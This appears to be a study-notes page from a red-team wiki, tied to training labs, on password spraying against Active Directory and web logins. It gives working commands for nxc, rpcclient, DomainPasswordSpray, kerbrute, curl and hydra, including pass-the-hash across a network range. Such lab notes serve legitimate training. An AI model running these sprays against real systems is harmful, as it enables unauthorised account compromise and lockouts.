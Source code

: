 # Password spraying

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)
[![breachingad](../../../../_badges/thm/breachingad.svg)](https://tryhackme.com/r/room/breachingad)
[![passwordattacks](../../../../_badges/thmp/passwordattacks.svg)](https://tryhackme.com/room/passwordattacks)

<div class="row row-cols-lg-2"><div>

Password spraying is a technique that is the most commonly used nowadays to find a working credential pair.

We select a password and test it on a list of usernames. After a delay, we repeat this step with another password. 🤖

Many companies have some [password policy](policy.md) that may include account lookout after a certain number of failed attempts, which makes brute force impractical as we would lock all accounts.
</div><div>

Some tools you might use:

* [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit) <small>(1.4k ⭐, 2022 🪦)</small>
* [TREVORspray](https://github.com/blacklanternsecurity/TREVORspray) <small>(1.0k ⭐)</small>
* [CredMaster](https://github.com/knavesec/CredMaster) <small>(1.0k ⭐)</small>

Many [network authentication tools](/cybersecurity/red-team/s2.discovery/techniques/network/auth.md) can be used such as `hydra -C`.
</div></div>

<hr class="sep-both">

## Windows Credentials Password spraying

<div class="row row-cols-lg-2"><div>

#### Leveraging SMB

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

You can use [SMB](/operating-systems/networking/protocols/smb.md):

```ps
$ nxc smb IP -u wordlist -p PasswordHere
$ nxc smb IP -u wordlist -p PasswordHere | grep +
$ nxc smb --local-auth CIDR -u administrator -H hash | grep +
```

#### Leveraging RPC

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

A very poor but straightforward [RPC](/operating-systems/networking/protocols/rpc.md) password spraying:

```ps
$ for u in $(cat wordlist);do rpcclient -U "$u%PasswordHere" -c "getusername;quit" IP | grep Authority; done
```
</div><div>

#### Leveraging A Domain-joined Host

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

You may use [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) <small>(1.8k ⭐)</small>:

```ps
PS> Import-Module .\DomainPasswordSpray.ps1
PS> Invoke-DomainPasswordSpray -Password PasswordHere -OutFile output.txt -ErrorAction SilentlyContinue
```

#### Leveraging Kerberos Authentication Module

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

We can use [kerbrute](/cybersecurity/red-team/tools/utilities/windows/kerbrute.md):

```ps
$ kerbrute passwordspray -d domain --dc IP valid_users.txt mypassword
```
</div></div>

<hr class="sep-both">

## HTTP LDAP Credentials Password spraying

[![breachingad](../../../../_badges/thm/breachingad.svg)](https://tryhackme.com/r/room/breachingad)

<div class="row row-cols-lg-2"><div>

We can use `curl` to test a pair of credentials:

```ps
$ curl URL -u "username:password" --ntlm
```

We can also use tools such as hydra:

```ps
$ hydra -L usernames.txt -p password example.com http-get
```
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [sprayhound](https://github.com/Hackndo/sprayhound)
</div><div>
</div></div>
